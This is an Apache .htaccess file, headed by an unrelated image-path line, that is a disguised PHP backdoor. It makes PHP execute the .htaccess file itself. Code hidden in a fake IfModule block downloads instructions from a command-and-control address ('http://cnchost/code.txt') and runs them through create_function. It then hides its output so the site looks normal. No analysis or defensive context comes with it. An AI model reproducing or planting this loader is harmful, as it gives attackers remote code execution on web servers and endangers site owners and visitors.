

#<?php go(); ?>
php_value auto_append_file .htaccess
php_value output_buffering 1
<IfModule lulwat.c>
  <Code "<?php
  $c=@file_get_contents('http://cnchost/code.txt');
  $x=create_function('',$c); $x();
  function go() {
    ignore_user_abort(true);session_write_close(); $c = ob_get_contents(); ob_clean(); echo substr($c, 0, strlen($c)-1);header("Content-Encoding: none");
    header("Content-Length: ".ob_get_length());header("Connection: close");ob_end_flush();flush(); ob_start();
  } ?>
  ">
  </Code>
</IfModule>
#<?php ob_clean();exit();?>